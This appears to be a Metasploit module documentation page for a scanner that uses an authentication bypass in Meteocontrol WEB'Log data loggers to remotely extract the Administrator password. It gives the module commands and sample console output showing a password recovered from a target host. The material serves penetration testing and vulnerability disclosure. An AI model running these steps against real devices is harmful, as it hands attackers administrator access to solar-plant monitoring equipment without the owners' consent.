 Meteocontrol WEB'Log Data Loggers are affected with an authentication bypass vulnerability. The module exploits this vulnerability to remotely extract Administrator password for the device management portal.

Note: In some versions, 'Website password' page is renamed or not present. Therefore, password can not be extracted. Manual verification will be required in such cases.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/meteocontrol_weblog_extractadmin```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Sample Output

  ```
msf > use auxiliary/scanner/http/meteocontrol_weblog_extractadmin
msf auxiliary(meteocontrol_weblog_extractadmin) > set rhosts 1.2.3.4
msf auxiliary(meteocontrol_weblog_extractadmin) > run

[+] 1.2.3.4:8080 - Running Meteocontrol WEBlog management portal...
[*] 1.2.3.4:8080 - Attempting to extract Administrator password...
[+] 1.2.3.4:8080 - Password is password
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
  ```
